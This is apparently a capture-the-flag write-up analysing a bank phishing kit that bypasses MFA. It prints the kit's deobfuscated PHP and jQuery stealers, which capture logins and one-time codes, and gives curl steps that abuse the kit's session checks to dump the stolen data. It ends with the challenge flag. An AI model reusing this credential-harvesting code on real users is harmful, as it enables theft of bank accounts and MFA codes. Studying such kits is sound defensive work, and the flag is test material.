

# TheOneAndOnlyKit

You work as a Security Analyst in the SOC for a financial collaboration company supporting a wide set of companies, including banks.

A customer has forwarded a screenshot of a possible phishing scam targetting a new bank. It seems to be related to the new MFA-bypass kit: `TheOneAndOnlyKit`. We have obtained a copy of the kit through well-established partners.

The image is a bit blurry, but we think it says "Your bank account will be deleted" along with a URL. The URL indicates an unsuspecting website has been infected with this kit on a subpath `/bank`.

Analyse the kit and the landing page. Your goal is to scrape all dropdata so we can notify compromised individuals. Since this kit automates MFA bypass there should be MFA-codes in the dropdata. The unsuspecting website "Snowflakes" shouldn't contain anything valuable.

Password for .zip file is `infected`.

`Landingpage`:

[🔗 https://helsectf2025-42694257c6fdb3976dd6-snowflakes.chals.io/bank](https://helsectf2025-42694257c6fdb3976dd6-snowflakes.chals.io/bank)

[⬇️ TheOneAndOnlyKit.zip](./TheOneAndOnlyKit.zip)
[⬇️ mobile_sms.jpeg](./mobile_sms.jpeg)

# Writeup

Did a quick rundown of the file structure and after a quick unobfuscating using a [PHP Sandbox](https://onlinephp.io/) I got a better understanding of the files. The file structure is like this:

```
phishingkit
├── 3e9670ade4
│   ├── b127dc4ec6.php    - Stealer for OTP
│   └── d39502937d.php    - Stealer for LOGIN
├── 876651db5c.php        - Debug variable
├── 9c2c870bd5
│   ├── 8a5e761c8f.php    - Session variable setter
│   ├── aff1ec8c49.php    - Session variable modifier
│   └── cffcad5842.php    - Extractor
├── c7204c9ddd.php        - Redirects to legit login page
├── e246e44313
│   ├── 5784514e82.php    - Database credentials
│   └── b6a11be58b.php    - Database connection
├── index.php             - Frontend login page
├── site
│   ├── index.html        - Login template
│   └── verify-2fa.html   - 2FA template
├── static
│   └── styles.css        - Styles
└── verify-2fa.php        - 2FA submission
```

### index.php

The `index.php` loads the login template and has a custom function bound to the login button. This function looks like this and submits data to the login stealer file. On success it redirects to the 2FA page.

```js
function b6fef750de(){
  let _4ef1208a7b = $('#username').val();
  let _edc57189e7 = $('#password').val();
  let _fbb099f391 = '<?= $fbb099f391 ?>';
  $.ajax({
    type:'POST',
    url:'3e9670ade4/d39502937d.php',
    data:{
      username:_4ef1208a7b,
      password:_edc57189e7,
      sessionid:_fbb099f391
    },
    success: function(data){window.location='verify-2fa.php'}
  });
  return false;
};
```

## verify-2fa.php

This does exactly the same as the `index.php` but for the 2FA page. It posts the OTP to the OTP stealer file and on success it redirects to the real banking login site.

## Stealer files

Both stealerfiles are simple insert queries. They insert the data sent to them into a database.

### Login stealer file (d39502937d.php) deobfuscated

```php
session_start();

require '../e246e44313/b6a11be58b.php'; // Loads the database connection as $a4144c39c6

if($_POST['username'] and $_POST["password"]){

    $username=$_POST["username"];
    $password=$_POST["password"];
    $sessionid=$_POST["sessionid"];
    $now = time();    
    
    $sql="INSERT INTO awesome (username,password,sessionid,status,timestamp) VALUES ('$username','$password','$sessionid','signin','$now')";
    mysqli_query($a4144c39c6,$sql);
    $error=mysqli_error($a4144c39c6);
}
```

### OTP stealer file (b127dc4ec6.php) deobfuscated

```php
session_start();

require '../e246e44313/b6a11be58b.php'; // Loads the database connection as $a4144c39c6

if($_POST['otp']) {
    $otp=$_POST["otp"];
    $sessionid=$_POST["sessionid"];
    $now = time();
    $sql = "INSERT INTO awesome (otp,sessionid,status,timestamp) VALUES ('$c6f2928eaf','$sessionid','otp','$now')";
    mysqli_query($a4144c39c6,$sql);
    $error=mysqli_error($a4144c39c6);
}
```

## Extractor file (cffcad5842.php)

This file is a GUI for the database, but it has a few `security measures`.

1. It checks if the session variable `6353f3496e` is set. If not it redirects to a rickroll.
2. It checks if the POST variable `180be329ca` is set. If not it redirects to the main page.
3. It checks if the POST variable `180be329ca` is the value of the varaible set in the debug variable file. If not it redirects to the main page.

If all these checks pass it will query the database for the keys given in the `6353f3496e` in the session variable and return it as a HTML table.

### Setting the 6353f3496e session variable

To get the data from the database I need to set the session variable `6353f3496e`. This is done in the `8a5e761c8f.php` file. This file sets the session variable to an array with the keys `id`, `username`, `password` and `timestamp`. This is done by just visiting the file.

### Modifying the session variable to include more fields like `otp` and `sessionid`

This is done in the `aff1ec8c49.php` file. This file takes two POST variables `a6f1f808de` and `ebd3a6d835`. If the `a6f1f808de` is set to `true` it will push the value of `ebd3a6d835` to the session variable `6353f3496e`. This is done by sending a POST request to the file with the variables set.

*NOTE* It is important to keep the same PHPSESSIONID when sending the POST request. This is done by getting the `Set-Cookie` header from the first request and sending it with the POST request. Now you maintain the same session id which is important to add to the session variable.

## Getting the data

### Step 1: Initialize Session

```bash
curl -v https://helsectf2025-42694257c6fdb3976dd6-snowflakes.chals.io/bank/9c2c870bd5/8a5e761c8f.php 
```

Retrieve the `PHPSESSID` from the response:

```
PHPSESSID=7f5cdb33f6834e2b624eab8759fce36a; path=/
```

### Step 2: Fetch Credentials

```bash
curl -H "Cookie: PHPSESSID=7f5cdb33f6834e2b624eab8759fce36a" -d "180be329ca=339db89622" -X POST https://helsectf2025-42694257c6fdb3976dd6-snowflakes.chals.io/bank/9c2c870bd5/cffcad5842.php -o victims.html
```

Now we received the `victims.html` file with the credentials. But no OTP or Session ID.

### Step 3: Include OTP & Session ID
Modify the session variable to include `otp` and `sessionid`:
```bash
curl -H "Cookie: PHPSESSID=7f5cdb33f6834e2b624eab8759fce36a" -d "a6f1f808de=true&ebd3a6d835=otp" -X POST https://helsectf2025-42694257c6fdb3976dd6-snowflakes.chals.io/bank/9c2c870bd5/aff1ec8c49.php
curl -H "Cookie: PHPSESSID=7f5cdb33f6834e2b624eab8759fce36a" -d "a6f1f808de=true&ebd3a6d835=sessionid" -X POST https://helsectf2025-42694257c6fdb3976dd6-snowflakes.chals.io/bank/9c2c870bd5/aff1ec8c49.php
```

#### Step 4: Re-fetch Data with OTP

```bash
curl -H "Cookie: PHPSESSID=7f5cdb33f6834e2b624eab8759fce36a" -d "180be329ca=339db89622" -X POST https://helsectf2025-42694257c6fdb3976dd6-snowflakes.chals.io/bank/9c2c870bd5/cffcad5842.php -o victims.html
```

## Profit




# Flag

```
helsectf{dropdata_obtained__a7f49799cc}
```